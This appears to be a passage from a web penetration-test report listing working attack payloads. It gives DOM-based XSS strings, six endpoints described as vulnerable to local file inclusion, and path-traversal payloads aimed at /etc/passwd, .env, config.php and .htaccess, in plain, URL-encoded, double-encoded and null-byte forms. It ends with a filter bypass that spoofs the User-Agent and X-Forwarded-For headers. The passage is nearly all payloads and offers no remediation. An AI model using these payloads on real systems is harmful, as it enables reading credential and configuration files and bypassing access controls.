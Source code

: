 4. **DOM-based XSS**:
   ```javascript
   <script>document.write('<img src=x onerror=alert("XSS")>')</script>
   <script>document.body.innerHTML='<img src=x onerror=alert("XSS")>';</script>
   ```

### 2. Local File Inclusion (LFI) Vulnerabilities

#### Vulnerable Endpoints
All tested endpoints are vulnerable to path traversal attacks:
- `/index.php?page=`
- `/index.php?file=`
- `/index.php?path=`
- `/index.php?include=`
- `/page.php?page=`
- `/file.php?file=`

#### Successful LFI Payloads
1. **Basic Path Traversal**:
   ```
   ../../../etc/passwd
   ../../../../etc/passwd
   ../../../../../etc/passwd
   ```

2. **URL Encoded Variations**:
   ```
   %2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
   %252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
   ..%2F..%2F..%2Fetc%2Fpasswd
   ..%252F..%252F..%252Fetc%252Fpasswd
   ```

3. **Double Encoded**:
   ```
   %252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
   ```

4. **Null Byte Injection**:
   ```
   ../../../etc/passwd%00
   ../../../etc/passwd%00.jpg
   ```

5. **Sensitive Files Access**:
   ```
   ../../../config.php (LFI INDICATOR FOUND)
   ../../../.env
   ../../../.htaccess
   ../../../index.php
   ```

## Bypass Technique Analysis

### Successful Bypass Method
- **User-Agent**: `Mozilla/5.0 (Linux; Android 10; SM-G975F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Mobile Safari/537.36`
- **Additional Header**: `X-Forwarded-For: 127.0.0.1`
- **Accept Header**: `text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8`

